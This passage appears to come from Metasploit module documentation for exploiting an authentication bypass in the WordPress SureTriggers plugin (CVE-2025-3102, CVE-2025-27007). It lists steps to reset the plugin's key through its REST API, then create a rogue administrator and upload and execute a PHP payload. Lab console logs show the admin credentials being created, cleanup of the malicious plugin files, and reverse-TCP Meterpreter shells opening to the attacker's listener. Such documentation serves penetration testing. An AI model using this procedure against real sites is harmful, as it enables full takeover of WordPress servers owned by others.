 1. Ensure SureTriggers v1.0.82 is active.
2. In `msfconsole`, set:

```bash
set ACTION CVE-2025-27007
```
3. Run the module: it will call `/wp-json/sure-triggers/v1/connection/create-wp-connection` to reset the key, then use
   `St-Authorization: Bearer mynewkey123` against `/wp-json/sure-triggers/v1/automation/action`.
4. New administrator is created; payload is uploaded and executed.


### Expected Results (CVE-2025-3102)

With `php/meterpreter/reverse_tcp`:

```plaintext
msf exploit(multi/http/wp_suretriggers_auth_bypass) > set action CVE-2025-3102
action => CVE-2025-3102
msf exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers 1.0.78 vulnerable to CVE-2025-3102
[+] Admin created: warner:Q0bTyYI43H8g
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_hkc1z/ajax_kq8xu.php...
[*] Sending stage (40004 bytes) to 172.27.0.3
[+] Deleted ajax_kq8xu.php
[+] Deleted wp_hkc1z.php
[+] Deleted ../wp_hkc1z
[*] Meterpreter session 6 opened (192.168.1.36:4444 -> 172.27.0.3:43702) at 2025-05-21 19:35:49 +0200

meterpreter > sysinfo
Computer    : 396e678f2510
OS          : Linux 396e678f2510 6.14.6-2-cachyos #1 SMP PREEMPT_DYNAMIC Sat, 10 May 2025 20:09:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf exploit(multi/http/wp_suretriggers_auth_bypass) > set action CVE-2025-3102
action => CVE-2025-3102
msf exploit(multi/http/wp_suretriggers_auth_bypass) > set target 1
target => 1
msf exploit(multi/http/wp_suretriggers_auth_bypass) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers 1.0.78 vulnerable to CVE-2025-3102
[+] Admin created: warner:Q0bTyYI43H8g
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_xtndd/ajax_bmjl3.php...
[*] Sending stage (3045380 bytes) to 172.27.0.3
[+] Deleted ajax_bmjl3.php
[+] Deleted wp_xtndd.php
[+] Deleted ../wp_xtndd
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.27.0.3:35176) at 2025-05-21 19:36:44 +0200

meterpreter > sysinfo
```